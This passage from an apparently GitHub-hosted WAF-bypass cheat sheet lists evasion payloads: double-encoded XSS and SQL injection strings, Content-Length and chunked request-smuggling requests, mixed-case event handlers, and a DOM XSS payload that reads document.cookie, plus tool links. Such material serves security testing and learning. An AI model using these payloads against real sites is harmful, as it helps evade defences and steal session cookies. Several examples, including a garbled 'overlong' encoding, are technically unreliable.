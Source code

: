 #### Testing

- **Overlong URL Encoding:-** Overlong URL encoding involves encoding characters multiple times to bypass URL decoding filters.

    **Payload Example:** XSS payload with overlong URL encoding
    ```
    Original: <script>alert(1)</script>
    Double encoded: %253C%252Fscr%2525%32Ft%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E

- **Double Encoding:-** Double encoding involves encoding special characters twice to bypass filters expecting single encoding.

    **Payload Example:-** SQL Injection with double URL encoding
    ```
    Original: .php?id=1
    Double encoded: .php%253fid%253d1
 
 > **Explanation:** Characters like . (%2e) and ? (%3f) are double URL encoded (%252e, %253f), which might bypass filters expecting single URL encoding.

### Request Smuggling 
- **Content-Length Discrepancy:-** Content-Length discrepancy exploits inconsistencies in Content-Length headers to confuse WAFs.

**Payload Example:** Exploiting Content-Length header discrepancy
```
POST /login HTTP/1.1
Host: example.com
Content-Length: 10

username=admin&password=pass
```
> **Explanation:** The Content-Length header claims 10 bytes, but the actual payload is longer (username=admin&password=pass), which might confuse WAFs relying on Content-Length for request validation.

- **Chunked Transfer Encoding:-** Chunked Transfer Encoding manipulates chunked encoding to evade WAF filters.

    **Payload Example:** Manipulating chunked encoding
    ```
    POST /upload HTTP/1.1
    Host: example.com
    Transfer-Encoding: chunked

    4
    data
    0
    ```
> **Explanation: T**he payload uses chunked encoding with an ambiguous boundary (0 after data), which might bypass filters expecting a specific chunked encoding structure.

#### Bypassing JavaScript Filters 
- **Event Handler Manipulation:-** Event handler manipulation bypasses filters blocking specific JavaScript event handlers.

**Payload Example:** Bypassing onmouseover filter
```
Original: <img src="x" onmouseover=alert(1)>
Modified: <img src="x" onmoUSeover=alert(1)>
```
> **Explanation:-** The onmouseover event handler is modified with mixed cases (onmoUSeover) to evade filters expecting exact event handler names.

- **DOM-based XSS:-** DOM-based XSS uses client-side techniques to bypass server-side WAF rules.

    **Payload Example:** Exploiting DOM-based XSS
    ```
    Original: <script>alert(document.cookie)</script>
    Modified: <img src="notexist" onerror="document.write('<script>alert(document.cookie)</scr'+'ipt>');">

> **Explanation:** The payload injects JavaScript through onerror attribute, using string concatenation (+'ipt>') to evade WAF filters expecting direct script tags.

Tools:- https://github.com/Ekultek/WhatWaf

Ref

https://github.com/0xInfection/Awesome-WAF

https://github.com/kh4sh3i/WAF-Bypass

https://www.yeswehack.com/learn-bug-bounty/web-application-firewall-bypass

https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2

https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/


